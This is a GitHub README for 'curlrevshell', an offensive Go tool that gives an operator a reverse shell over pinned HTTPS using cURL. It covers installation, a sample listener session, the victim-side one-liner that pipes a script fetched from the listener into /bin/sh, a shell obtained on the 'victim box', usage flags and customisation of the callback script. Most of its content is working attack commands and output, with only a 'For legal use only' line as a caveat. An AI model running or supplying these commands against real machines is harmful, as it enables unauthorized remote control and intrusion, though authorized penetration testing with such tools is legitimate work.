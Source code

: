 cURL-Powered Reverse Shell
==========================
Somewhat kooky replacement for the typical `bash >/dev/tcp...` reverse shell,
but with the following "features":

- Underlying comms via HTTPS via cURL
- Self-signed TLS certificate, plus certificate pinning
- One cURL execution per output line
- Lots and lots of fork and exec
- Like, lots
- Optionally serves static files
- Accepts multiple shells in series, like `nc -lk` but in color

For legal use only

Quickstart
----------
1. Install the Go compiler (https://go.dev/doc/install).
2. Install `curlrevshell` and start it.
   ```sh
   go install github.com/magisterquis/curlrevshell@latest
   curlrevshell
   ```
3. Get a shell, using one of the lines under `To get a shell:`.

There are a few options, try `-h` for a list.

Example
-------
It should look like the following, but with nicer colors:
```
$ go install github.com/magisterquis/curlrevshell@latest
go: downloading github.com/magisterquis/curlrevshell v0.0.1-beta.1
go: downloading golang.org/x/net v0.22.0
go: downloading golang.org/x/sync v0.6.0
go: downloading golang.org/x/term v0.18.0
go: downloading golang.org/x/tools v0.19.0
go: downloading golang.org/x/sys v0.18.0
go: downloading golang.org/x/text v0.14.0
$ curlrevshell
01:04:42.760 Listening on 0.0.0.0:4444
01:04:42.760 To get a shell:
01:04:42.760
01:04:42.760 curl -sk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://127.0.0.1:4444/c | /bin/sh
01:04:42.760 curl -sk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://192.168.1.10:4444/c | /bin/sh
01:04:42.760 curl -sk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://[::1]:4444/c | /bin/sh
01:04:42.760 curl -sk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://[fe80::1]:4444/c | /bin/sh
01:04:42.760
01:04:55.247 [192.168.1.20] Sent script: ID:zcj5vz3zp6ce URL:192.168.1.10:4444
01:04:55.259 [192.168.1.20] Got a shell: ID:zcj5vz3zp6ce
> id
01:05:10.753 uid=1000(you) gid=1000(you) groups=1000(you), 0(wheel), 117(dialer)
```
On `192.168.1.20`, the victim box, somewhere between `01:04:42.760` and `01:04:55.247`:
```sh
curl -sk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://192.168.1.10:4444/c | /bin/sh
```

Usage
-----
```
Usage: curlrevshell [options]

Even worse reverse shell, powered by cURL

Options:
  -callback-template template
    	Optional callback template file
  -listen-address address
    	Listen address (default "0.0.0.0:4444")
  -print-default-template
    	Write the default template to stdout and exit
  -serve-files-from directory
    	Optional directory from which to serve static files
  -tls-certificate-cache file
    	Optional file in which to cache generated TLS certificate (default "/home/you/.cache/curlrevshell/cert.txtar")
```

Details
-------
Under the hood, it's really just a little HTTP server with four endpoints:

Endpoint          | Description
------------------|------------
`/i/{id}`         | Long-lived connection for input from you to the shell.
`/o/{id}`         | Output from the shell to you, one line at a time.  The `{id}` has to match `/i`'s.
`/c`              | Serves up a little script that takes the place of `bash >/dev/tcp...` and makes you appreciate low PIDs
`/{anythingelse}` | Either 404's or serves up files if you started it with `-serve-files-from`.

Callback Template
-----------------
The script generated with `/c` can be changed by writing a new template and
telling the program about it with `-print-default-template`.  It usually looks
like
```sh
$ curlrevshell -print-default-template >custom.tmpl # Get the default template to start with
$ vim ./custom.tmpl                                 # Mod ALL the things!
$ curlrevshell -callback-template ./custom.tmpl     # Run with your fancy new template
```
The struct passed to the template is `TemplateParams` in
[script.go](internal/hsrv/script.go).  The default script is
[script.tmpl](internal/hsrv/script.tmpl).

TLS
---
TLS is all via a pinned self-signed certificate.  By default, the certificate
is cached in a file, mostly to keep from having to copy/paste a new fingerprint
every time a ragey Ctrl+C kills the current shell.  Caching can be disabled
with `-tls-certificate-cache ""`.
